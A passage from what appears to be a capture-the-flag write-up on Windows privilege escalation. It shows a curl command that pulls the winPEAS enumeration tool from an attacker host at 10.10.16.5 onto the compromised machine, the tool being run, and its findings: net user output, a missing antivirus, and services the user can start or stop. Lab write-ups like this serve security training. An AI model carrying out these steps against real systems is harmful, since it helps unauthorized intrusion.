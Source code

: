 ## Privilege escalation
Now that we have a user shell, we can try to escalate our privileges to root. To do so, we can start by uploading the file `winPEASx86_ofs.exe` and enumerating the privesc vulnerabilities:
```powershell
C:\Users\Phoebe\Desktop>curl http://10.10.16.5/winPEASx86_ofs.exe > privesc.exe
curl http://10.10.16.5/winPEASx86_ofs.exe > privesc.exe
```
To do so, we used a python http server and we can now run the script as:
```powershell
C:\Users\Phoebe\Desktop>.\privesc.exe
```
In its output we must pay attention to:
- Firewall enabled: `Only domain`
- Access to apache logs: `Yes`
- Access to PS logs: `Yes`
- `Phoebe` user information:
    ```powershell
    C:\Users\Phoebe\Desktop>net user Phoebe
    net user Phoebe
    User name                    Phoebe
    Full Name                    Phoebe
    Comment                      Workstation Power User
    User comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            4/12/2021 12:54:30 PM
    Password expires             Never
    Password changeable          4/12/2021 12:54:30 PM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   6/1/2022 1:31:19 PM

    Logon hours allowed          All

    Local Group Memberships      *Remote Management Use*Users                
    Global Group memberships     *None                 
    The command completed successfully.
    ```
  - As we can see, the user is not member of any privileged group.
- AV: `None`
- Permission to start/stop these processes:
  ```powershell
    RmSvc: GenericExecute (Start/Stop)
    wcncsvc: GenericExecute (Start/Stop)
    BcastDVRUserService_3e7d4: GenericExecute (Start/Stop)
    ConsentUxUserSvc_3e7d4: GenericExecute (Start/Stop)
    CredentialEnrollmentManagerUserSvc_3e7d4: GenericExecute (Start/Stop)
    DeviceAssociationBrokerSvc_3e7d4: GenericExecute (Start/Stop)
    DevicePickerUserSvc_3e7d4: GenericExecute (Start/Stop)
    DevicesFlowUserSvc_3e7d4: GenericExecute (Start/Stop)
    PimIndexMaintenanceSvc_3e7d4: GenericExecute (Start/Stop)
    PrintWorkflowUserSvc_3e7d4: GenericExecute (Start/Stop)
    UdkUserSvc_3e7d4: GenericExecute (Start/Stop)
    UnistoreSvc_3e7d4: GenericExecute (Start/Stop)
    UserDataSvc_3e7d4: GenericExecute (Start/Stop)
    WpnUserService_3e7d4: GenericExecute (Start/Stop)
  ```
- Users: `Phoebe` and `Administrator`